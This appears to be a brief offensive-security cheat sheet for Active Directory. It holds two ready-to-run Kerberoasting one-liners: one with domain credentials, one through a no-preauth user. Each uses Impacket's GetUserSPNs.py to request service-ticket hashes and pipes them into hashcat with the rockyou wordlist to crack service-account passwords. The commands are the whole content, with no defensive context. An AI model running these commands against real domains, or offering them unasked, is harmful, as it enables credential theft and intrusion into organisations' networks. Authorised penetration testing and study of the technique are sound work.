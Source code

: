 # getuserspns
#active-directory

## Kerberoast
```
GetUserSPNs.py -request -outputfile hashes.kerberoast <domain>/<user>:<passwd>; hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```

## Kerberoast with no-preauth user
```
GetUserSPNs.py -request -no-preauth <no-preauth_user> -usersfile <usersfile|users.txt> -outputfile hashes.kerberoast <domain>/; hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt --force
```

